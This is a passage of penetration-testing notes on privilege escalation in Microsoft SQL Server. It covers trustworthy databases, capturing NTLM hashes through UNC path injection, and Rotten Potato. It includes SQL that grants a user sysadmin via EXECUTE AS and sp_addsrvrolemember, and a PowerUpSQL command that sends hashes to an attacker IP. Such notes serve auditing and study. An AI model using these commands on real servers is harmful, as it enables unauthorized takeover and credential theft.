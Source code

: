 ### Trustworthy Databases

- <https://docs.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property>
- <http://sqlity.net/en/1653/the-trustworthy-database-property-explained-part-1/>

- `is_trustworthy_off` by default (Only a sysadmin can change).
- When `off` impersonated users will only have database-scope permissions.
- When `on` impersonated users can perform actions with server level permissions.
- Allows writing procedures that can execute code with server level permission.

- If `is_trustworthy_on` and if a `sysadmin` (not necessarily `sa`) is owner of the database, it is possible for the database owner (a user with `db_owner`) to elevate privileges to `sysadmin`.

**Discover Trustworthy Databases**

```sql
SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY 
from sys.databases
```
```powershell
Invoke-SQLAudit -Instance instance-name -Verbose | Out-GridView
Invoke-SQLAuditPrivTrustworthy -Instance instance-name -Verbose
```

**Exploitation**

- Add `sysadmin` to `myuser`:
```sql
EXECUTE AS USER = 'dbo'
SELECT system_user
EXEC sp_addsrvrolemember 'example.com\myuser','sysadmin'
```

### Public to Service Account

**UNC Path Injection**

- Capture Net-NTLM (also known as NTLMv1/v2) hashes
- Stored procedures like `xp_dirtree` and `xp_fileexist` can be used to capture Net-NTLM hashes
- UNC Path Injection cheatsheet: <https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e>

```powershell
Invoke-SQLUncPathInjection -Verbose -CaptureIp 192.168.1.11
```

### Service Account to System

**Rotten Potato**

- <https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/>
- Trick the "NT AUTHORITY\SYSTEM" account into authenticating via NTLM to a TCP endpoint attacker control.
- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account
- Impersonate the token we have just negotiated.
- Usable only if attackers current account has the privilege to impersonate security tokens.
